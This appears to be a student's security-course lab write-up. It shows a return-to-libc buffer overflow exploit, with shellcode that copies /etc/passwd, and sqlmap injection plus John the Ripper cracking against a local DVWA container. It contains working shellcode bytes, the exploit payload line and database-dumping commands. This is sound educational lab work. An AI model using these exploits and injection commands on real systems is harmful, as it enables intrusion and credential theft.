# Lab #1,22110036, Nguyen Hoang Huy, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char.local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**: 

Prepare environment 
```
sudo sysctl -w kernel.randomize_va_space=0
```

Compile C program. I stored in lab1vuln.c
```
gcc lab1vuln.c -o lab1vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

Conpile asm program. I stored in lab1sh.asm
```
nasm -g -f elf lab1sh.asm; ld -m elf_i386 -o lab1sh lab1sh.o
```

Get the shell code of asm program
=> shell code is 97 bytes: \x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80

```
for i in $(objdump -d lab1sh |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```


Stackframes of the program. So we exploit buffer overflow to change return address of file main, replace this and execute shellcode. But array buffer[] only 16 bytes, isn't enough to place shellcode. So we must use return-to-libc to exploit this buffer overflow vulnerabilities.


Use pwd command to get the path of compiled asm program (lab1sh) => the path is : "/home/seed/seclabs/lab1sh"



Create environment variable to contain path of shell code file
```
export mypath="/home/seed/seclabs/lab1sh"
```



Get address of: system, exit and this environment variable.

Address of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

Address of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

Address of this environment variable: 0xffffd9f4 will be inserted with format \xf4\xd9\xff\xff




As we can see in the stackframe, to replace return address of function main, we need 20 bytes (placement bytes) + 4 bytes (address of system) + 4 bytes (address of exit) + 4 bytes (address of environment variable contain path of shellcode)
```
    r $(python -c "print('a'*20+'\xb0\x0d\xe5\xf7'+'\xe0\x49\xe4\xf7'+'\xf4\xd9\xff\xff')")
```



Successfully execute shellcode: copy /etc/passwd to /tmp/pwfile. Here is before statement and after statement 





**Conclusion** : Successfully to exploit buffer overflow vulnerabilities of C program by return-to-libc method, execute shellcode copy /etc/passwd to /tmp/pwfile
# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: 
Use sqlmap to get information about all available databases

**Answer 1**:

Install dvwa
```
docker pull vulnerables/web-dvwa
```
Docker run dvwa website and login with default user (username: admin, password: password). Website url is: http://localhost/setup.php.
```
docker run -d -p 80:80 --name dvwa vulnerables/web-dvwa
```
Login this website, get cookie



Install sqlmap and excute command, get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs --cookie="PHPSESSID=le4tn3n8q0urog61lsagt7odq3; security=low"
```



**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

Use sqlmap to get tables
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=le4tn3n8q0urog61lsagt7odq3; security=low" --tables
```



Use sqlmap to get users
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=le4tn3n8q0urog61lsagt7odq3; security=low" users --dump
```



**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

Create file sqlmap_hashes.txt to store these hashes password



Run john command to disclose the password of all database users from the above exploit

password of user "admin" is "password"

password of user "gordonb" is "password"

password of user "1337" is "abc123"

password of user "pablo" is "letmein"

password of user "smithy" is "charley"

```
john --format=raw-md5 sqlmap_hashes.txt
```



